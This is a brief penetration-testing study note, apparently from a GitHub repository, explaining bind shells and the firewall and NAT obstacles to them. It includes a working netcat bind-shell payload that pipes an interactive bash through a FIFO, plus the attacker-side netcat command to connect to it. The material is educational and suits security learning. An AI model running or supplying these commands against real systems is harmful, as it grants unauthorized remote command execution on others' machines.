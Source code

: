 # Bind Shell

With a bind shell, the `target system has a listener` started and awaits a connection from a pentester's system (attack box).

![image](https://user-images.githubusercontent.com/87195021/163404394-5e338c84-fcea-41db-b8ea-3c58083deeb8.png)

## Bind Challenges

- There would have to be a listener already started on the target.
- If there is no listener started, we would need to find a way to make this happen.
- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network(public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

## Useful Bind Shell
    rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l [IP] [PORT] > /tmp/f

- The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

## Attacker Commands

    nc -nv [IP] [PORT]